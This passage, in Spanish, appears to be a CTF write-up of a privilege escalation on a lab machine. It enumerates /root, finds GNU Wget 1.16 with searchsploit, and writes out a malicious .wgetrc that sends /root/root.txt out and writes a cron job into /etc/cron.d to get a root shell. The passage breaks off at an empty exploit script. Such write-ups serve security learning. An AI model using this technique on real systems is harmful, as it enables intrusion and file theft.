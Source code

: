 ```bash
drwxr-xr-x   2 root root  4096 Jul 19  2016 mnt
drwxr-xr-x   4 root root  4096 Jul 21  2017 opt
dr-xr-xr-x 137 root root     0 Jul 20 05:56 proc
"drwxrwxrwx   6 root root  4096 Sep 19  2017 root "    --------- PODEMOS ACCEDER ------------ 
drwxr-xr-x  27 root root   940 Jul 20 06:25 run
drwxr-xr-x   2 root root 12288 Jul 21  2017 sbin
drwxr-xr-x   2 root root  4096 Jul 21  2017 snap
drwxr-xr-x   2 root root  4096 Jul 21  2017 srv
dr-xr-xr-x  13 root root     0 Jul 20 05:56 sys
drwxrwxrwt  10 root root  4096 Jul 20 06:56 tmp
drwxr-xr-x  13 root root  4096 Jul 21  2017 usr
drwxr-xr-x  15 root root  4096 Jul 21  2017 var
lrwxrwxrwx   1 root root    29 Aug 29  2017 vmlinuz -> boot/vmlinuz-4.4.0-87-generic
lrwxrwxrwx   1 root root    29 Jul  9  2017 vmlinuz.old -> boot/vmlinuz-4.4.0-83-generic
```

# Escada de privilegios final ~ Wget 1.16 vuln
Enumeramos el directorio `/root/`
```bash
atanas@kotarak-dmz:/root$ cat flag.txt 
Getting closer! But what you are looking for can't be found here.
atanas@kotarak-dmz:/root$ cat app.log 
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
```
Encontramos una peticion a nivel de un servicio http de la ip 10.0.3.133

Procedemos a buscar por `searchsploit wget/1.6`
```bash

# searchsploit wget 1.16    
-------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                         | Path
-------------------------------------------------------------------------------------------------------------------------------
GNU Wget < 1.18 - Access List Bypass / Race Condition                                                  | multiple/remote/40824.py
GNU Wget < 1.18 - Arbitrary File Upload / Remote Code Execution                                        | linux/remote/40064.txt
--------------------------------------------------------------------------------------------------------------------------------
```
Nos quedamos con el .txt y vemos que tenemos un exploit para un contexto en el que atraves de una peticion por WGET se permite redireccionar a otro archivo cualquiera.
Procedemos de la siguiente manera:
1.- nos creamos en nuestra maquina un archivo llamado `.wgetrc` en el cual le vamos a solicitar la flag de root.txt y vamos a injectar una tarea cron 
```bash
# cat .wgetrc                              
post_file = /root/root.txt
output_document = /etc/cron.d/wget-root-shell
```
Tenemos que hacer uso del siguiente exploit desde la maquina victima que viene dado en el `.txt` encontrado con searchsploit
```python
# cat exp1.py 
#!/usr/bin/env python

```